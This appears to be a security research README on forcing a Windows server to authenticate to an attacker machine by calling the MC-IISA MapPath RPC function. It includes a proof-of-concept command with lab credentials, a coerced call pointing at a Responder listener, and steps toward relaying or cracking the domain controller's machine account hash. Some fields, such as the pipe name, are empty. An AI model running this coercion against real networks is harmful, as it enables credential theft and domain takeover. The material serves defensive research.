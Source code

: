 # MC-IISA - Remote call to MapPath (opnum 6)

## Summary

 - **Protocol**: [[MC-IISA]: Internet Information Services (IIS) Application Host COM Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-iisa/488de90f-9710-45fb-b71a-6938733fafb6)

 - **Protocol UUID**: 31a83ea0-c0e4-4a2c-8a01-353cc2a4c60a

 - **Protocol version**: 0.0

 - **SMB Named pipe**: ``

 - **Function name**: [`MapPath`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-iisa/11dea6a2-739d-4f96-bd97-415a8ba172c6)

 - **Function operation number**: `6`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MC-IISA`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-iisa/488de90f-9710-45fb-b71a-6938733fafb6) protocol (with uuid `31a83ea0-c0e4-4a2c-8a01-353cc2a4c60a` and version `0.0`) in order to perform remote procedure calls to functions in the [`MC-IISA`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-iisa/488de90f-9710-45fb-b71a-6938733fafb6) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MC-IISA]: Internet Information Services (IIS) Application Host COM Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-iisa/488de90f-9710-45fb-b71a-6938733fafb6) and allows to call RPC functions of this protocol. We will then call the remote [`MapPath`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-iisa/11dea6a2-739d-4f96-bd97-415a8ba172c6) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
MapPath('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
HRESULT MapPath(
   [in] BSTR bstrSiteName,
   [in] BSTR bstrVirtualPath,
   [out] BSTR* pbstrPhysicalPath,
   [out] IAppHostElement** ppVirtualDirectoryElement,
   [out] IAppHostElement** ppApplicationElement
 );
```

## References

 - Documentation of protocol [MC-IISA]: Internet Information Services (IIS) Application Host COM Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-iisa/488de90f-9710-45fb-b71a-6938733fafb6

 - Documentation of function `MapPath`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-iisa/11dea6a2-739d-4f96-bd97-415a8ba172c6